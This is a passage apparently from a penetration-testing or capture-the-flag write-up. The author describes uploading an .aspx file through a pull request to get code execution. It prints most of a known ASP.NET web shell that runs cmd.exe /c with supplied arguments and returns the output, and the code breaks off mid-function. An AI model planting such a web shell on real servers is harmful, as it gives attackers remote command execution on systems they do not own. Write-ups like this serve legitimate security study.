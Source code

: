 ![](/assets/img/11-test-fixed-pull.png)

Next I created a new pull request, trying to upload an `.aspx` file to see if I could get code execution.

```aspnet
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
```